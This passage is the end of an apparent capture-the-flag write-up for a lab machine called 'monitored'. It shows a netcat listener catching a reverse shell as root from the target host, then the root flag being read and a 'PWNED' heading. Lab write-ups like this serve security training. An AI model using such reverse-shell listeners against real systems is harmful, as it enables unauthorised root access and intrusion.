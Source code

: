 We now got a shell as root.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001 
listening on [any] 9001 ...
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.248] 39520
bash: cannot set terminal process group (170408): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `c71d3c62c7fd2a68e960f94ca27efea5`
```bash
root@monitored:/root# cat root.txt
c71d3c62c7fd2a68e960f94ca27efea5
```


## PWNED!!!
![Pasted image 20240714210932.png](/images/Pasted image 20240714210932.png){: .normal }